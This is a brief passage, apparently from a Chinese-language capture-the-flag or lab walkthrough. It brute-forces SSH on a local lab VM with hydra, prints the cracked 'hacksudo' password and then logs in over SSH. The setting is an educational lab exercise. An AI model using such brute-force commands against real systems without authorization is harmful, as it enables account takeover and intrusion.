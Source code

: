 ![image-20250309115853234](./assets/image-20250309115853234.png)



### 利用hydra爆破

```
hydra -L user.txt -P passwd.txt ssh://192.168.56.147
```

![image-20250309115939661](./assets/image-20250309115939661.png)

成功爆破出

```
hacksudo：MyD4dSuperH3r0!
```





### ssh登录

```
ssh hacksudo@192.168.56.147
```
